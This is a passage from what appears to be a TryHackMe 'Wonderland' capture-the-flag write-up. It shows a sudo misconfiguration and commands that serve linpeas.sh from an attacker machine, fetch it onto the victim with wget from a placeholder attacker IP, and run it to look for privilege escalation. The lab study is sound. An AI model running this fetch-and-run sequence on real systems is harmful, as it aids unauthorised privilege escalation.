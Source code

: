 ![Alice SSH shell and sudo](/Images/thm_wonderland_alice_1.jpg)

It appears that the user **alice** can run the following python file as the **rabbit** user which is not standard.
```
/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Host and download linpeas.sh enumeration script onto the target system in order to quickly enumerate possible other vectors for privilege escalation.

```
# On the attacking system start a python web server to host your linpeas script.
sudo python3 -m http.server 80

# On the victim system download the linpeas script with wget
wget http://<attacking_ip_address>/linpeas.sh

# Set execute permissions
chmod +x linpeas.sh

# Run linpeas with all (-a) checks and save to a file for further analysis for later if needed using tee command.
./linpeas.sh -a | tee linpeas_results.txt
```

![Linpeas capabilities detection](/Images/thm_wonderland_linpeas_1.jpg)
